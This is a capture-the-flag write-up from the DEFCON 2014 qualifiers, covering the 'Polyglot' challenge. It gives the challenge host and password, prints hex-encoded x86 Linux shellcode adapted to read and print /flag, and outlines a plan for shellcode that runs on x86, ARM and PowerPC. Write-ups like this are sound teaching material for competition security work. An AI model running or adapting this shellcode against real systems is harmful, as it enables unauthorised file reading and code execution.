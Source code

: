 ```yaml
---
layout: post
title: "DEFCON CTF 2014 Quals Writeups"
description: ""
category: writeups
tags:
- defcon
- 2014
- writeup
---
```



<a href="polyglot"></a>

### Gynophage 4 - Polyglot

    polyglot_9d64fa98df6ee55e1a5baf0a170d3367.2014.shallweplayaga.me 30000 
    Password: w0rk_tHaT_tAlEnTeD_t0nGu3

When we connect and supply the password, we see

    Give me shellcode.  You have up to 0x1000 bytes.  All GPRs are 0.  PC is 0x41000000.  SP is 0x42000000.

If we send garbage, we see
    
    Throwing shellcode against linux26-x86.(http://services.2014.shallweplayaga.me/polyglot_9d64fa98df6ee55e1a5baf0a170d3367)

Then,

    Didn't send back the right value.  Fail.

Our objective was to print out `/flag` on each target machine. We found [some shellcode to print out a file](http://www.shell-storm.org/shellcode/files/shellcode-73.php), and modified it to print `/flag` instead. 

    "\x31\xc0\x31\xdb\x31\xc9\x31\xd2"+\
    "\xeb\x32\x5b\xb0\x05\x31\xc9\xcd"+\
    "\x80\x89\xc6\xeb\x06\xb0\x01\x31"+\
    "\xdb\xcd\x80\x89\xf3\xb0\x03\x83"+\
    "\xec\x01\x8d\x0c\x24\xb2\x01\xcd"+\
    "\x80\x31\xdb\x39\xc3\x74\xe6\xb0"+\
    "\x04\xb3\x01\xb2\x01\xcd\x80\x83"+\
    "\xc4\x01\xeb\xdf\xe8\xc9\xff\xff"+\
    "\xff/flag\x00\x00"

If we send this shellcode raw to the service, we advance to the next level:

    Throwing shellcode against linux26-armel.(http://services.2014.shallweplayaga.me/polyglot_6a3875ce36a55889427542903cd43893)

In the end, we needed to devise shellcode to work on Linux on x86, ARMEL (little-endian), ARMEB (big-endian), and PPC. The strategy we used was to assemble a series of jumps so that each architecture would take a different jump to its own shellcode. In other instruction encodings, they must be legal, not alter control flow, and not cause illegal memory accesses. However, we don't need to worry about instructions after each jump for a given architecture. 

